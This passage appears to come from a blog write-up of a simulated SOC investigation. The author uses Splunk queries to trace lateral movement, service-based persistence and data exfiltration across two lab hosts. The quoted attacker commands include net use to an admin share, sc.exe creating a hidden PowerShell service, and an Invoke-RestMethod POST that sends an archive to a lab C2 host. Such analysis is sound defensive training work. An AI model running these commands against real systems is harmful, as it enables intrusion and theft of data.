| sort _time
| table _time event_id Image CommandLine ParentCommandLine
```



All three Active Directory reconnaissance commands ran within 172 milliseconds (`20:24:52.419` to `20:24:52.591`):

1. `net.exe user /domain` (`T1087.002`)
2. `net.exe group "Domain Admins" /domain` (`T1069.002`)
3. `nltest.exe /dclist:tryhatmestudios.thm` (`T1018` / `T1482`)

In `EventCode=4104` (visible at the bottom of the Stage 4 Script Block screenshot below), all three came from a single C2 tasking one-liner that explicitly checked `if(Test-Path $w\Sysnative\nltest.exe)` before calling `nltest.exe`. Unlike `net.exe`, 64-bit Windows has no 32-bit `nltest.exe` in `SysWOW64`, so a 32-bit PowerShell implant has to route through `Sysnative` to avoid WOW64 file redirection failing.

## Stage 4: Lateral Movement to `THM-SREYES` (Alert 6357)

Continuing down the `svchost_update.ps1` process timeline showed the actor pivoting from `THM-MSMITH` to developer workstation `THM-SREYES` one minute after the discovery burst:



Correlating `EventCode=1` above with `EventCode=4104` below (captured in Session 2, so `_time` values in the screenshot below sit +1m 23s ahead of Session 1) recovered the file-copy step between `net use` and `sc.exe`, which never spawns a child binary and therefore does not appear in `EventCode=1` alone:



1. `20:25:52` UTC (`20:27:15` in Session 2): Mounted the remote admin share with `net use '\\THM-SREYES\C$'` (`T1021.002`).
2. `20:26:52` UTC (`20:28:15` in Session 2): Staged the implant over SMB via `Copy-Item "$env:TEMP\svchost_update.ps1" '\\THM-SREYES\C$\Windows\Temp\' -Force` (`T1570`), which also logged `event_id 43356` (`System`) writing the file on `THM-SREYES`.
3. `20:27:22` UTC (`20:28:45` in Session 2): Registered a remote service with `sc.exe \\THM-SREYES create SvcUpdate binpath= "cmd.exe /c start /b powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_update.ps1"` (`T1543.003`).
4. `20:30:17` UTC (`20:31:41` in Session 2): Started the service via `sc.exe \\THM-SREYES start SvcUpdate` (`T1569.002`).

### Alert 6357: Suspicious Remote Logon and Service Creation (True Positive)

On `THM-SREYES`, Windows Security `EventCode=4697` logged the new service installation and raised Alert `6357` (Critical):

- Service Name: `SvcUpdate` (Start Type: `3` Manual, Service Type: `0x10`, Service Account: `LocalSystem`)
- Service File Name: `cmd.exe /c start /b powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_update.ps1`
- Installing Account: `TRYHATME\svc-mktshare` (`SID: S-1-5-21-1966530601-3185510712-10604624-1126`, `Logon ID: 0x24F6572`)



Legitimate services point to a service binary in `System32` or `Program Files`, not `cmd.exe /c start /b` wrapping a hidden PowerShell script in `C:\Windows\Temp` (used so the service control manager does not time out waiting for a non-service binary, while `powershell.exe` detaches in the background as `SYSTEM`). Because `THM-MSMITH` was running under `m.smith` when `net use` and `sc.exe` authenticated as `TRYHATME\svc-mktshare`, the actor likely extracted `svc-mktshare` from `m.smith`'s Windows Credential Manager during Stage 3. Since neither `vaultcmd` output nor the `csc.exe` assembly output is captured in logs, I stated that credential source as a hypothesis in the L2 escalation report rather than confirmed fact.

Querying the spawned PowerShell `ProcessGuid` (`{3af46175-3bfc-6a90-a41c-000000001100}`, PID `14264`) verified that `SvcUpdate` executed on `THM-SREYES`:

```spl
index=main sourcetype=_json EventCode=1 ProcessGuid="{3af46175-3bfc-6a90-a41c-000000001100}"
| table _time ParentImage ParentCommandLine Image CommandLine
```



`services.exe` spawned `cmd.exe /c start /b`, which launched 64-bit `System32\powershell.exe` (PID `14264`, `NT AUTHORITY\SYSTEM`). Within the same second (`20:30:17.567`), PID `14264` compiled its own inline C# helper (`C:\Windows\Temp\5ywlufsj\5ywlufsj.cmdline`) and began beaconing to `45[.]147[.]230[.]131:8067`.

## Stage 5: Scheduled Crash Log Upload on `THM-SREYES` (Alert 6358, False Positive)

Roughly two minutes after `SvcUpdate` started on `THM-SREYES` (`10.60.10.20`), a Critical Exfiltration alert (`6358`, `event_id 43438`) fired under rule *Suspicious External Connection Following Archive Creation*. It showed 64-bit `powershell.exe` (PID `12408`, `NT AUTHORITY\SYSTEM`, `ProcessGuid` `{3af46175-3c7c-6a90-d11c-000000001100}`) connecting outbound to `104.18.32.47:443`.



On a host where `SYSTEM` PowerShell was already active under an attacker service, another `SYSTEM` PowerShell process archiving files and sending them externally needed lineage verification. Pivoting on `{3af46175-3c7c-6a90-d11c-000000001100}` in `EventCode=1` isolated its parent and full command line (screenshot from Session 2 at `20:33:44` UTC, matching `~20:32:21` UTC in Session 1):

```spl
index=main ProcessGuid="{3af46175-3c7c-6a90-d11c-000000001100}" EventCode=1
| table _time ParentImage ParentCommandLine ParentProcessGuid CommandLine User
```



Putting Alert `6358` next to Alert `6360` separates the scheduled task from the intrusion:

| Attribute | Alert `6358` (`crashlogs.7z`, **FP**) | Alert `6360` (`nx_build_beta.7z`, **TP**) |
| --- | --- | --- |
| **Parent Process** | `svchost.exe -k netsvcs -p -s Schedule` (Task Scheduler) | `services.exe` → `cmd.exe` → `svchost_update.ps1` (`SvcUpdate`) |
| **ProcessGuid / PID** | `{3af46175-3c7c-6a90-d11c-000000001100}` / `12408` | `{3af46175-3bfc-6a90-a41c-000000001100}` / `14264` |
| **Archive & Source** | `C:\ProgramData\CrashReports\crashlogs.7z` (`*.log`) | `C:\Windows\Temp\nx_build_beta.7z` (`C:\Dev\NeuralNexus\Build\*`) |
| **Destination** | `https://telemetry-vendor.thm/upload` → `104.18.32.47:443` | `hxxp://paylink-cdn[.]thm:8067/upload` → `45[.]147[.]230[.]131:8067` |
| **Protocol & Intel** | Standard HTTPS (`443`), **CLEAN** on TryDetectThis | Plain HTTP on non-standard port `8067`, **10/92 malicious** on VT |



> **Lesson learned on Alert 6358:** During my live run I found every difference in the table above, yet still escalated `6358` as True Positive out of caution because `telemetry-vendor.thm` was not listed in an internal approved-vendor doc and the host was actively compromised. The simulator scored that classification **Incorrect**; it was a scheduled crash-report job. Active compromise on a host does not turn unrelated scheduled tasks on that host into True Positives.
{: .prompt-warning }

## Stage 6: Collection & Exfiltration (`THM-SREYES`, Alerts 6359 & 6360)

### Alert 6359: Suspicious Archive Utility Execution (True Positive)

At `20:34:13` UTC, the `SvcUpdate` PowerShell implant (PID `14264`) invoked 7-Zip (PID `9104`, `NT AUTHORITY\SYSTEM`) to compress the studio's *NeuralNexus* build directory into `C:\Windows\Temp\`, triggering Alert `6359`:

- Image: `C:\Program Files\7-Zip\7z.exe`
- CommandLine: `"C:\Program Files\7-Zip\7z.exe" a -mx=1 C:\Windows\Temp\nx_build_beta.7z C:\Dev\NeuralNexus\Build\*`
- Parent: `powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_update.ps1` (PID `14264`)



VirusTotal returned 0/71 detections for `7z.exe` (`SHA256: E2CA3EC168AE9C0B4115CD4FE220145EA9B2DC4B6FC79D765E91F415B34D00DE`, Igor Pavlov's standard 7-Zip v24.09 binary). As with `powershell.exe` and `vaultcmd.exe`, a clean vendor binary used by an implant is judged by its parent lineage (`SvcUpdate`), `-mx=1` fast-compression staging into `C:\Windows\Temp`, and target path (`C:\Dev\NeuralNexus\Build\*`).



Searching Sysmon `EventCode=11` for `*nx_build_beta.7z` returned 0 results because the local Sysmon policy excluded `.7z` file creation in `C:\Windows\Temp`. Pivoting to PowerShell `EventCode=4104` filled that gap and showed all three collection and exfiltration commands (screenshot from Session 2, where `_time` is shifted +1m 23s to `20:35:05`, `20:35:35`, and `20:36:39` UTC, corresponding to `20:33:42`, `20:34:13`, and `20:35:16` UTC in Session 1):

```spl
index=main EventCode=4104 ("NeuralNexus" OR "nx_build_beta")
| table _time Message
```



1. `Get-ChildItem -Recurse C:\Dev\NeuralNexus\Build\` (recursive directory listing, `T1083`)
2. `7z.exe a -mx=1 C:\Windows\Temp\nx_build_beta.7z C:\Dev\NeuralNexus\Build\*` (archive staging to `C:\Windows\Temp`, `T1560.001` & `T1074.001`)
3. `Invoke-RestMethod -Uri http://paylink-cdn.thm:8067/upload -Method Post -InFile C:\Windows\Temp\nx_build_beta.7z; Start-Sleep -Seconds 5` (HTTP POST exfiltration over the C2 channel, `T1041`)

### Alert 6360: External Connection Following Archive Creation (True Positive)

Alert `6360` (Critical) fired on Sysmon `event_id 43456` (`SourcePort 52624`), an outbound TCP connection from `THM-SREYES` (`10.60.10.20`) to `45[.]147[.]230[.]131:8067` under PID `14264`.

Filtering `EventCode=3` to the 2.5-minute window around archive creation separated the regular C2 beacons from the upload connection:

```spl
index=main sourcetype=_json EventCode=3 DestinationIp="45.147.230.131" SourceIp="10.60.10.20"
    earliest="10/23/2026:20:34:00" latest="10/23/2026:20:36:30"
| table _time event_id DestinationPort SourcePort
| sort _time
```



- `20:34:13`: `7z.exe` creates `nx_build_beta.7z` (`event_id 43451`).
- `20:34:14` and `20:34:48`: `event_id 43453` (`SourcePort 52594`) and `event_id 43454` (`SourcePort 52611`) fire ~34 seconds apart on the normal C2 beacon cycle.
- `20:35:16`: `Invoke-RestMethod` POSTs `nx_build_beta.7z` to `/upload` (`EventCode=4104`, `event_id 10618`).
- `20:35:18.105`: Alerted connection `event_id 43456` (`SourcePort 52624`) opens 2 seconds after the POST command, paired 1 ms later with `event_id 43455` (`SourcePort 52623`).

> **Pitfall avoided:** Early on I almost misread the alert's `timestamp` (`21:34:19`) as `20:34:19` and assumed it was just the routine `20:34:14` beacon right after `7z.exe`. Matching on `event_id 43456` and `SourcePort 52624` pinned it to `20:35:18` UTC, right after the `/upload` command.
{: .prompt-tip }

### Scoping All Compromised Hosts

To make sure no third host had beaconed to the same infrastructure, I grouped all Sysmon `EventCode=3` traffic to `45[.]147[.]230[.]131` across the index:

```spl
index=main sourcetype=_json EventCode=3 DestinationIp="45.147.230.131"
| stats count min(_time) as first max(_time) as last by SourceIp Image
| eval first=strftime(first,"%F %T"), last=strftime(last,"%F %T")
```



| Source IP (Host) | Process | Connections | Window (UTC `_time`) |
| --- | --- | --- | --- |
| `10.60.10.22` (`THM-MSMITH`) | `SysWOW64\powershell.exe` (PIDs `8572`, `9356`) | **53** | `20:19:50` to `20:40:13` |
| `10.60.10.20` (`THM-SREYES`) | `System32\powershell.exe` (PID `14264`) | **15** | `20:30:17` to `20:40:00` |

All 68 outbound connections came from `THM-MSMITH` and `THM-SREYES`. Because Sysmon `EventCode=3` records TCP connection establishment without byte counts or HTTP status codes, host logs prove the archive upload was initiated, while proxy or firewall telemetry is needed to verify total bytes transferred.

## Complete Intrusion Timeline (UTC `_time`, Session 1 Reference)

| Time (UTC) | Host | Activity | MITRE ATT&CK |
| --- | --- | --- | --- |
| `~20:19:47` | `THM-MSMITH` | `WINWORD.EXE` (`PID 6184`) opens `Q3_PressKit_Feedback.docm`; spawns benign `ai.exe` (Alert `6352`, FP) and encoded PowerShell stager `PID 8572` (Alert `6353`, TP) | `T1204.002`, `T1059.001`, `T1027` |
| `20:19:49` to `20:19:51` | `THM-MSMITH` | Stager (`PID 8572`) resolves `paylink-cdn[.]thm` → `45[.]147[.]230[.]131` and downloads `svchost_update.ps1` into `%TEMP%` | `T1105` |
| `20:19:50` | `THM-MSMITH` | Hidden 32-bit PowerShell (`PID 9356`) launches `%TEMP%\svchost_update.ps1` with `-ExecutionPolicy Bypass` | `T1036.005`, `T1564.003` |
| `20:19:52` | `THM-MSMITH` | `csc.exe` compiles inline C# (`pvrwsrjt.cmdline`); `vaultcmd.exe /listcreds:"Windows Credentials"` runs (Alert `6355`) | `T1027.004`, `T1555.004` |
| `20:19:53` → | `THM-MSMITH` | C2 beaconing every ~30s to `45[.]147[.]230[.]131:8067` (Alert `6354`, 53 total connections including stager) | `T1071.001` |
| `20:24:52` | `THM-MSMITH` | 172ms discovery burst: `net user /domain`, `net group "Domain Admins" /domain`, `nltest /dclist:tryhatmestudios.thm` (Alert `6356`) | `T1087.002`, `T1069.002`, `T1018` |
| `20:25:52` | `THM-MSMITH` | Mounts remote admin share via `net use \\THM-SREYES\C$` | `T1021.002` |
| `20:26:52` | `THM-MSMITH` → `THM-SREYES` | `Copy-Item` copies `svchost_update.ps1` to `\\THM-SREYES\C$\Windows\Temp\`; `System` (`event_id 43356`) writes file on `THM-SREYES` | `T1570` |
| `20:27:22` | `THM-MSMITH` → `THM-SREYES` | `sc \\THM-SREYES create SvcUpdate` logged as Security Event `4697` under `TRYHATME\svc-mktshare` (Alert `6357`) | `T1543.003`, `T1078` |
| `20:30:17` | `THM-SREYES` | `sc start SvcUpdate` spawns `services.exe` → `cmd.exe` → 64-bit `powershell.exe` (`PID 14264`, `SYSTEM`) + `csc.exe`; C2 beaconing starts | `T1569.002`, `T1071.001` |
| `~20:32:21` | `THM-SREYES` | *Unrelated Task Scheduler job archives `crashlogs.7z` and POSTs to `telemetry-vendor.thm` over HTTPS/443 (Alert `6358`, FP)* | *Benign* |
| `20:33:42` to `20:34:13` | `THM-SREYES` | `Get-ChildItem -Recurse C:\Dev\NeuralNexus\Build\`, then `7z.exe` creates `C:\Windows\Temp\nx_build_beta.7z` (Alert `6359`) | `T1083`, `T1560.001`, `T1074.001` |
| `20:35:16` | `THM-SREYES` | `Invoke-RestMethod` POSTs `nx_build_beta.7z` to `hxxp://paylink-cdn[.]thm:8067/upload`; TCP `event_id 43456` opens at `20:35:18` (Alert `6360`) | `T1041` |

## Scenario Objectives Answered

